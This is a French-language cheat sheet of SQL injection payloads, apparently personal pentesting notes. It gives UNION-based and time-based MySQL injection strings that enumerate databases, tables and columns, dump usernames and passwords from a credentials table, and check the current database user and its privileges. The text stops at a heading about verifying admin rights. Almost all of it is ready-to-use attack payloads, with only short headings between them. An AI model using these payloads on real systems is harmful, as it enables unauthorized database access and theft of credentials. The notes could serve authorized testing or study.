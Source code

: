 ### #TimeBased

```sql
cn' UNION SELECT 1, SLEEP(5), 3, 4 #
```

## Récupérer le nom de la DB actuelle

```sql
cn' UNION select 1,database(),3,4 #
```

## Lister toutes les DB

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA #
```

## Lister toutes les tables d'une DB

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev' #
```

## Lister toutes les colonnes d'une table

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials' #
```

## Dump les données d'une autre DB

```sql
cn' UNION select 1, username, password, 4 from dev.credentials #
```


# Vérification de privilèges

## Identifier le user actuel #UnionBased 

```sql
cn' UNION SELECT 1, user(), 3, 4 #
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user #
```
### Vérifier si le user à des droits d'admin
